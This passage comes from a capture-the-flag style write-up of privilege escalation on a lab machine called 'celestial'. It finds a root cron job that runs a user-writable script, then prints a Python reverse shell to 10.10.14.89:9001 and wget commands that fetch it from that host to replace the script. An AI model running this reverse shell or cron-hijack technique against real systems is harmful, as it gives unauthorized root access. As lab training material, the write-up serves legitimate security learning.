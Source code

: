 ## ⬆️ Privilege Escalation

### Enumeration

**Cron Job Analysis:**
```bash
cat /var/log/syslog | grep -i "CRON"
```

<img width="1920" height="420" alt="image" src="https://github.com/user-attachments/assets/853aec91-3ec2-4a2d-b526-e4959433c593" />


**Discovery:**
```
Oct 28 05:00:01 celestial CRON[7365]: (root) CMD (python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py)
```

### Cron Job Analysis

Key findings:
- Script runs every 5 minutes as root
- Executes `/home/sun/Documents/script.py`
- User `sun` has write permissions to the script directory
- Script gets replaced every execution from `/root/script.py`

### Exploitation Strategy

**Step 1: Create reverse shell payload**
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.89",9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
**Step 2: Host payload**
```bash
python3 -m http.server 80
```

<img width="956" height="226" alt="image" src="https://github.com/user-attachments/assets/d3b44720-4819-4bae-a446-fcb9bad0e370" />

**Step 3: Replace existing script**
```bash
cd /home/sun/Documents
rm -f script.py
wget 10.10.14.89/s.py
mv s.py script.py
```
